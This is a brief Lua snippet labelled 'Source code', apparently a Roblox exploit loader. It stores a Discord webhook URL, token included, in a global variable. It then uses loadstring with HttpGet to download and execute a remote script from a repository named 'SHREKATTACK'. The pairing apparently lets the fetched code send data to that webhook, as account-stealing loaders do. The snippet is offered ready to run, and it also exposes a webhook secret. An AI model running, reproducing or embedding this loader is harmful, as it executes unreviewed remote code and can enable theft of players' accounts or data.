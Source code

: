 _G.webhooksdiscord = "https://discord.com/api/webhooks/846374741644541983/7bmRXAeqcgGSHdea3snErjWAt22Z52WPlU6yuGE4xoJ6ABlGZRTBo93QKOfthFy2Smy8" 
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL.lua",true))()
